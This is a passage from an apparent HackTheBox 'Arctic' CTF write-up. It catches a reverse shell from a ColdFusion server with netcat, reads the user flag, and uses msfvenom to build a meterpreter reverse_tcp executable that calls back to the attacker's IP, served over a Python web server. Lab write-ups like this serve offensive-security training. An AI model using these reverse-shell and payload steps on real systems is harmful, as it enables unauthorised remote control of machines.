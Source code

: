 After you run your task you should see your reverse shell here ```http://10.10.10.11:8500/CFIDE/```

![image8](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Arctic/images/8.png)

If you click on it you will get a shell:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444                        
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.11] 49525
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```
We can now get User Flag:
```
C:\Users\tolis\Desktop>type user.txt
type user.txt
02650d3a...a6cb96f3
```
# Root Flag
Let's generate a new payload, but this time to get a meterpreter reverse shell:
```
┌──(kali㉿kali)-[~/Desktop/HTB/Arctic]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.28 lport=5555 -f exe > meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```
Make sure to run a web server on the payload directory. Note: you can run a webserver by using this command: ```python3 -m http.server --bind <your_ip_address>```
